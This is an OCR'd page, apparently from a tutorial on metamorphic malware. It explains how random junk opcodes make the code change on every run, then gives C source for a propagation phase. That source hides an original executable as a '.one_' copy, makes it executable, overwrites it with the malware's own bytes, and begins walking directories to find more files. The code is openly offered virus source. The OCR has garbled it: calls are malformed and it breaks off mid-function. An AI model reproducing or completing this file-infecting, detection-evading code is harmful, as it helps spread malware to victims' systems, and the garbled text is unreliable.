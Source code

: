 certain range, which have been chosen 
to ensure they have no impact on the 
successful operation of the rest of 
the program code. The range is small 
because this is only an example. The 
choice and range of opcodes used could 
of course be expanded.

The Malware
in principle. Each time the program 
runs, it randomly replaces certain 
assembly code sequences with randomly 
different sequence of junk opcodes, 
The overall effect is that each time 
the program is run different sets of 
junk assembly instruction sequences 
are executed, making the code is 
metamorphic, but the changing opcodes 
don’t relate to the main program 
function and so the code is always 
changing but the main program 
output/effect is consistent Continue 
reading 3
Propagation Phase
Executes a bash command to execute and 
hide an original executable file and 
Embeds the malware in the executable.

```c

/* hide an original executable file */
void hide_file(const char *bash_code,
const char *filename)
{
	JUNK_ASM;
	int cmd_len = strlen(bash_code) +
strlen(filename) + 1;
	
	sprintf(bash_code, filename,
filename);
}

/* Embeds the malware  */
void embed_code(uint8_t *file_data,
uint32_t file_len,  const char
*filename)
{
  JUNK_ASM;

    hide_file("cp %s .one_%s",
filename);    
    execute_bash("chmod +x
%s",filename);

    write_file(file_data, file_len,
filename);           

}
// Lists files in passed in directory // path
void propagate(const char *path, const
char *exclude) 
{
	JUNK_ASM;

DIR *dir;
```